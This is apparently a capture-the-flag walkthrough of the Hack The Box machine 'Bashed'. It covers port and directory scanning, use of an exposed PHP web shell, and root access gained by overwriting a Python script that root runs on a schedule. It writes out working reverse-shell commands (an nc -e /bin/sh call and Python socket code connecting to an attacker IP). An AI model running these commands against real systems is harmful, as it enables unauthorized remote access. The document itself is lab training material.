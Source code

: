 # Bashed

# Table of Contents

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled.png)

When visiting the IP address provided by the machine, we see the above text, which implies that we are likely to be dealing with a web shell.

## Recon

First, I ran a basic nmap scan:

```bash
nmap -sC -sV -O -oA nmap/initial 10.10.10.68
```

This was the output we got:

```bash
# Nmap 7.91 scan initiated Mon Jul  5 01:40:13 2021 as: nmap -sC -sV -O -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.0099s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge|general purpose
Running (JUST GUESSING): Oracle Virtualbox (98%), QEMU (92%)
OS CPE: cpe:/o:oracle:virtualbox cpe:/a:qemu:qemu
Aggressive OS guesses: Oracle Virtualbox (98%), QEMU user mode network gateway (92%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  5 01:40:40 2021 -- 1 IP address (1 host up) scanned in 27.29 seconds
```

From this, we see that there is only one open port, port 80

- It is running a [http-server-header: Apache/2.4.18]

Now that we are sure that the website is our only possible attack vector, we can now run gobuster on the website

```bash
gobuster dir -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.68                                                   127 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/05 02:21:58 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]    
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]    
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]     
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

Trying out the viable directories, we see the following php scripts in /dev

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%201.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%201.png)

## Feeling our way around

Clicking into phpbash.php, we get the following shell:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%202.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%202.png)

These are the three commands that can help get us clues as to what the shell we obtain can do:

- *whoami*: print effective userid
- *id*: print real and effective user and group IDs
- *uname -a*: print system information

This lets us know that we are running in the context of an Apache default user www-data

## Reverse Shell

In the attack machine (kali) set up a listener:

```bash
nc -nlvp 4444
```

In the target machine (bashed) send a reverse shell to the attack machine

```bash
nc -nv 10.10.14.30 4444 -e /bin/sh
```

However, the connection does not seem like it can be maintained

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%203.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%203.png)

Therefore, we can try to obtain a reverse shell in other ways

To verify if we have python on the web shell, we can run the following command:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%204.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%204.png)

This response indicates that we do indeed have python on this box

Hence, we can obtain a reverse shell using the Python code below:

```python
**python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**
```

And upon executing the code on phpbash.php, we see the following:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%205.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%205.png)

Bingo we have obtained our reverse shell.

## Enumeration

Enumerating through home, we see that there are two users:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%206.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%206.png)

When we enter arrexel's directory, we can see user.txt, whose contents contain the user flag:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%207.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%207.png)

## More Enumeration

Moving on from the directory, we can head to "/", where we can see many directories

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%208.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%208.png)

There is an interesting directory, scripts, which is the only directory not owned by root.

If we now look at "sudo -l", we can see the commands that we can execute as root as the current user we are.

Bingo! We see that we can change our role to scriptmanager with no password.

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%209.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%209.png)

Therefore, we can now change our role into scriptmanager as follows:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2010.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2010.png)

Now, we can head into "/scripts":

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2011.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2011.png)

In scripts, we can see that theres test.txt (owned by root) and [test.py](http://test.py) (owned by scriptmanager)

If we look at the contents of test.py, we see the following:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2012.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2012.png)

If we look at the timestamps on test.txt, we can see that the text file is updated in short intervals

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2013.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2013.png)

This likely implies that [test.py](http://test.py) is being executed consistently, which we can likely make use of.

If we change [test.py](http://test.py) to create a reverse shell in test.txt, we might be able to get root access as test.txt has root privileges.

As such, we can simply create a [test.py](http://test.py) on our local machine as follows (replacing the ip address and the sockets with your own):

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.3”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

After creating it, we also have to ensure that anyone can execute it:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2014.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2014.png)

After that, we can set up a simple HTTP server, and wget our crafted [test.py](http://test.py) to our reverse shell:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2015.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2015.png)

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2016.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2016.png)

Seeing that the file is copied as test.py.1, we have to copy our crafted script to test.py:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2017.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2017.png)

Furthermore, we have to ensure that root has the ability to run our copied script, so we do a chmod on it:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2018.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2018.png)

With that, we set up a listener on our local machine for the port we wrote in our crafted script (in this case, its 5555):

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2019.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2019.png)

And if we wait for a minute, we will get a connection for our reverse shell:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2020.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2020.png)

And now lastly, all we need to do is head to the root directory where we can now get the root flag:

![Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2021.png](Bashed%2018d82a629e29436084e14bfc756d8bb3/Untitled%2021.png)
